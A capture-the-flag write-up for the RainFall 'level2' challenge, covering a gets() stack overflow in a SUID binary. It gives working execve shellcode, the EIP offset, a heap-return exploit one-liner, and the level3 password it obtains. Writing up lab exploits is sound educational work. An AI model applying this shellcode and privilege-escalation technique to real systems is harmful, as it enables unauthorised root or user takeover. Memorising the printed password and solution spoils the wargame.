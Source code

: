 # Level 2

## Vulnerability

Stack overflow

## Context

We find a binary with owner ```level3``` and SUID.
```
level2@RainFall:~$ ls -l
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
Running the binary, it seems to read from stdin, and print what is given.
```
level2@RainFall:~$ ./level2
oh hi
oh hi
```

## Solution

After a certain length of input it segfaults.
```
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
When we inspect with gdb we find main calls function ```p```. Function ```p``` includes a call to ```gets()``` which is vulnerable to buffer overflow.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) disas main
...
   0x08048545 <+6>:	call   0x80484d4 <p>
...
(gdb) disas p
...
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
...
```
Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 80.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
This means we can write our malicious code in the stdin, followed by garbage until the buffer overflows and we reach 80 characters, where the return address can be overwritten.

However, this buffer is stored on the stack, unfortunately function ```p``` checks to make sure the return address isn't in the stack.
```
(gdb) disas p
...
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
...
```
This prevents us from overwriting the return address with and address in the stack, or an environment variable.

However, we could use the heap. ltrace shows the buffer is later copied with strdup. strdup uses malloc which uses the heap.
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7a4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                          = 0
gets(0xbffff6ac, 0, 0, 0xb7e5ec73, 0x80482b5 oh hi!
)               = 0xbffff6ac
puts(" oh hi!" oh hi!
)                                             = 8
strdup(" oh hi!")                                           = 0x0804a008
+++ exited (status 8) +++
```
ltrace also shows us strdup always uses the address ```0x804a008```, this indicates no ASLR (Address Space Layout Randomization).

So let's try to write our malicious shellcode in the heap by writing it in the input prompt. Then write the strdup malloc address on the return address.

Our malicious shellcode simply needs to open a new shell. To execute a program we use system call execve(), we find the unix syscall for execve is 11.
```
level2@RainFall:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep "execve"
#define __NR_execve		 11
```
Let's create the assembly code to open a shell, and break it down into bytecode.
```
+----------------+-----------------------+-----------------------+----------------------------------------------+
| Bytecode       | (Intermediate)        | Assembly              | Comments                                     |
+----------------+-----------------------+-----------------------+----------------------------------------------+
| 31 d2          | xor    edx,edx        | xor   edx, edx        | execve 3rd parameter = envp, NULL            |
| 31 c9          | xor    ecx,ecx        | xor   ecx, ecx        | execve 2nd parameter = argv, NULL            |
| 51             | push   ecx            | push  ecx             |                                              |
| 68 2f 2f 73 68 | push   0x68732f2f     | push  '//sh'          | after 3rd push instruction, stack contains:  |
| 68 2f 62 69 6e | push   0x6e69622f     | push  '/bin'          | db '/bin//sh',0,0,0,0                        |
| 31 c0          | xor    eax,eax        | xor   eax, eax        |                                              |
| b0 0b          | mov    al,0xb         | mov   al, 11          | execve syscall                               |
| 89 e3          | mov    ebx,esp        | mov   ebx, esp        | execve 1st parameter = executable (on stack) |
| 83 e4 f0       | and    esp,0xfffffff0 | and   esp, 0xfffffff0 | align stack                                  |
| cd 80          | int    0x80           | int   0x80            | syscall                                      |
+----------------+-----------------------+-----------------------+----------------------------------------------+
```
Lets create our exploit file, starting with our malicious bytecode, adding backslash ```\x``` to write as bytes.
```
level2@RainFall:~$ echo -e -n "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80" > /tmp/level2_exploit
```
Earlier we found the EIP offset is 80, so let's overflow the gets() buffer with whatever garbage until we reach 80 characters total.
```
level2@RainFall:~$ echo -e -n "------------------------------------------------------" >> /tmp/level2_exploit
```
Finally overwrite the return address with the address of our malicious shellcode, copied by strdup() to the heap.
```
level2@RainFall:~$ echo -e -n "\x08\xa0\x04\x08" >> /tmp/level2_exploit
```
Pipe the exploit file into ./level2 stdin. This opens a shell as user ```level3```, where we can cat the level3 password.
```
level2@RainFall:~$ cat /tmp/level2_exploit - | ./level2
[press enter]
...
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
Here is the exploit in convenient one-line format:
```
echo -e -n "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80------------------------------------------------------\x08\xa0\x04\x08" > /tmp/level2_exploit; cat /tmp/level2_exploit - | ./level2
```

## Recreate Exploited Binary

As user level3, in /tmp/ create and compile ```level2_source.c```
```
level3@RainFall:/tmp$ gcc level2_source.c -fno-stack-protector -z execstack -o level2_source
```
Edit permissions including suid, then move the binary to home directory.
```
level3@RainFall:/tmp$ chmod u+s level2_source; chmod +wx ~; mv level2_source ~
```
Exit back to user level2, then run the binary.
```
level3@RainFall:/tmp$ exit
exit
level2@RainFall:~$ echo -e -n "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80------------------------------------------------------\x08\xb0\x04\x08" > /tmp/level2_exploit; cat /tmp/level2_exploit - | /home/user/level3/level2_source
[press enter]
...
whoami
level3
```

